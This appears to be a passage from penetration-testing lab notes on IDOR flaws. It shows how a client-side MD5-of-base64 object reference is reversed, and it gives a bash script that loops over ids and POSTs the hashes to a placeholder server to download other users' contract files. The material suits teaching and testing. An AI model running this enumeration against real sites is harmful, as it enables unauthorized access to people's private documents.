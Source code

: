 ## **Bypassing Encoded References**

## **Function Disclosure**

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:

```jsx
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}

```

**Replicating the function**

```bash
echo -n 1 | base64 -w 0 | md5sum
```

### **Mass Enumeration**

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

**Script to download files**

```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done

```

## **IDOR in Insecure APIs**

### Scenario

We click on the `Edit Profile` button, we are taken to a page to edit information of our user profile, namely `Full Name`, `Email`, and `About Me`, which is a common feature in many web applications.
